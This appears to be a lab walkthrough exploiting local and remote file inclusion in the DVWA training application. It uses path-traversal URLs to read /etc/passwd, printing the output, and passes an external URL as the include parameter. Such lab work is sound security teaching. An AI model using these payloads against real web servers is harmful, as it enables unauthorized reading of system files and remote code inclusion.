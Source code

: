 # Local File Inclusion (Level = Low)

- Visit the URL of the DVWA. Add the following credentials admin/password.
- Change the security level of the DVWA to Low.
- Go to the local file inclusion activity area.

## Local File Inclusion (Activity 1)
"To include a file edit the ?page=index.php in the URL to determine which file is included."

Web URL = http://DVWA_IP/vulnerabilities/fi/?page=include.php

Analyses of the web URL, shows that the web application is accessing include.php page which showed the message "To include a file edit the ?page=index.php in the URL to determine which file is included.".
This means that the page that we want to access is passed within the GET function.
For proving this, Go to "View Source" tab at the right bottom corner of the application to see the page source code and the functions of the PHP.
<?php

    $file = $_GET['page']; //The page we wish to display 

?>

The next step in the exploitation is to change the page parameter in the web URL to see the behavior of the web page.
For this modify the URL by including any garbage value.

http://DVWA_IP/vulnerabilities/fi/?page=iaassssdddff

The web page showed some error messages after entering garbage value in the page parameter.

Warning: include(sssss) [function.include]: failed to open stream: No such file or directory in /opt/lampp/htdocs/vulnerabilities/fi/index.php on line 35

Warning: include() [function.include]: Failed opening 'sssss' for inclusion (include_path='.:/opt/lampp/lib/php:../../external/phpids/0.6/lib/') in /opt/lampp/htdocs/vulnerabilities/fi/index.php on line 35

From the error messages, it has been identified that the lookup directory for accessing the files is /opt/lampp/htdocs/vulnerabilities/fi/

That means the current working directory is the "fi" directory. Now try to perform path traversal to go to the root directory of the operating system.

URL = http://DVWA_IP/vulnerabilities/fi/?page=../../../../../etc/passwd

When this URL is sent to the web server, it returned the contents of the /etc/passwd file.

root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/bin/sh bin:x:2:2:bin:/bin:/bin/sh sys:x:3:3:sys:/dev:/bin/sh sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/bin/sh man:x:6:12:man:/var/cache/man:/bin/sh lp:x:7:7:lp:/var/spool/lpd:/bin/sh mail:x:8:8:mail:/var/mail:/bin/sh news:x:9:9:news:/var/spool/news:/bin/sh uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh proxy:x:13:13:proxy:/bin:/bin/sh www-data:x:33:33:www-data:/var/www:/bin/sh backup:x:34:34:backup:/var/backups:/bin/sh list:x:38:38:Mailing List Manager:/var/list:/bin/sh irc:x:39:39:ircd:/var/run/ircd:/bin/sh gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh nobody:x:65534:65534:nobody:/nonexistent:/bin/sh libuuid:x:100:101::/var/lib/libuuid:/bin/sh syslog:x:101:103::/home/syslog:/bin/false dvwa:x:1000:1000:dvwa,,,:/home/dvwa:/bin/bash sshd:x:102:65534::/var/run/sshd:/usr/sbin/nologin messagebus:x:103:110::/var/run/dbus:/bin/false usbmux:x:104:46:usbmux daemon,,,:/home/usbmux:/bin/false pulse:x:105:111:PulseAudio daemon,,,:/var/run/pulse:/bin/false rtkit:x:106:113:RealtimeKit,,,:/proc:/bin/false

This the example of local file inclusion where we perform path traversal techniques to include the file from local system in the URL parameters through the vulnerable web application.

We can also access other files within the filesystem such as /etc/hostname and files in other directories as well.

### Performing Remote File Inclusion
The remote file inclusion can also be performed by adding the URL of some other website such as https://google.com or some other server to access the file remotely.

URL = http://DVWA_IP/vulnerabilities/fi/?page=https://google.com

The URL will add Google's search bar within the DVWA web page, although the search bar isn't working but the page is accessed.














